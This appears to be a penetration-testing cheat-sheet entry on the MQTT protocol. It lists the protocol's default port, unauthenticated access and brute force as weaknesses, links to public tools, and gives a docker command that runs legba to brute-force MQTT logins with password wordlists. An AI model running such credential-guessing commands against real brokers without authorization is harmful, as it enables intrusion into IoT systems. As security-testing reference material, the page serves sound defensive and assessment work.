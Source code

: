 # MQTT

<details>

<summary>Introduction</summary>

MQTT（Message Queuing Telemetry Transport）是一种轻量级、灵活的消息传输协议，专门设计用于物联网（IoT）和机器到机器（M2M）通信。它采用发布-订阅模式，允许设备和应用程序以低带宽和低能耗的方式进行实时通信。MQTT 具有简单的客户端-服务器架构，支持基于主题的消息发布和订阅，实现了高效的消息传递和可靠性。由于其轻量级和可扩展性，MQTT 被广泛应用于传感器网络、智能家居、工业自动化和物联网解决方案中。

</details>

<table><thead><tr><th width="178">Name</th><th>MQTT (Message Queuing Telemetry Transport)</th></tr></thead><tbody><tr><td><strong>Default Port</strong></td><td>1883</td></tr><tr><td><strong>GetShell?</strong></td><td>N/A</td></tr><tr><td><strong>Vulnerability</strong></td><td><ul><li>Unauthorized Access (Leak Information)</li><li>Brute Force</li></ul></td></tr></tbody></table>

## Unauthorized Access

If the MQTT service allows unauthorized access, you can use the [MQTT Explorer](https://github.com/thomasnordquist/MQTT-Explorer) to connect.

## Brute Force

If the MQTT service has been authenticated, you can use tools like [legba](https://github.com/evilsocket/legba) and [mqtt-pwn](https://github.com/akamai-threat-research/mqtt-pwn) for brute force.

{% code title="Environment" %}
```bash
HOST=; PORT=1883; # TARGET HOST INFO
DICT_PATH=~/hack/dicts/hack-dict; # LOCAL DICT PATH
```
{% endcode %}

{% code title="Use legba" %}
```bash
docker run \
  -v $DICT_PATH:/hack-dict \
  -v $(PWD):/out \
  --network host -it \
  evilsocket/legba:latest \
  mqtt --target $HOST:$PORT \
  --username /hack-dict/username/top10.txt \
  --password /hack-dict/password/darkweb2017-top100.txt \
  -O /out/legba-mqtt-outptu.txt
```
{% endcode %}
